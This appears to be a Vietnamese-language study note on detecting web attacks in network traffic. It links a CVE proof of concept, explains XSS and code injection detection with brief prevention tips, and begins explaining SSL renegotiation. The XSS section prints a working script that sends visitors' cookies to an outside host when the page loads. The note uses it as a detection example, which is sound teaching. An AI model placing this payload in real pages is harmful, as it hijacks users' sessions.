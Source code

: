 cve: https://github.com/dhmosfunk/CVE-2023-25690-POC

Code 200 -> response success


## Cross-Site Scripting (XSS) & Code Injection Detection

![[Pasted image 20240829192850.png]]

![[Pasted image 20240829193510.png]]
->, giả sử có khu vực nhận xét của người dùng trên máy chủ web h. Chúng ta có thể nhận thấy một trong những comment trông giống như sau.
Code: javascript

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```
một số trường hợp kẻ tấn công có thể cố gắng chèn mã vào các trường này như hai ví dụ sau.

![[Pasted image 20240829193901.png]]

#### Preventing XSS and Code Injection
+ xử lý thông tin đầu vào của người dùng 
+ không diễn giải thông tin đầu vào của người dùng dưới dạng mã.

## SSL Renegotiation Attacks



**SSL renegotiation** là một quy trình trong giao thức **SSL/TLS** nơi client và server đồng ý thiết lập một kết nối **SSL** mới sử dụng kết nối hiện tại mà không làm gián đoạn việc truyền tải dữ liệu đang diễn ra. Quy trình này tương tự như **SSL handshake** ban đầu khi bạn kết nối với một trang web bảo mật.

 ví dụ:

Đang duyệt một trang web thương mại điện tử để mua sắm. Khi bạn lần đầu tiên kết nối với trang web, trình duyệt của bạn và máy chủ sẽ thực hiện **SSL handshake** để thiết lập một kết nối bảo mật. Trong quá trình này, họ trao đổi các khóa mã hóa và xác minh danh tính của nhau, đảm bảo rằng dữ liệu của bạn vẫn riêng tư và an toàn.

Giả sử bạn đã ở trên trang web trong một thời gian dài, thêm các sản phẩm vào giỏ hàng và duyệt các trang khác nhau. Phiên **SSL** vẫn đang hoạt động, duy trì bảo mật cho các tương tác của bạn. Tuy nhiên, có thể sẽ đến một lúc nào đó trang web cần xác thực lại bạn, có thể là do phiên của bạn đã hết thời gian hoặc bạn đang cố truy cập một trang bảo mật.
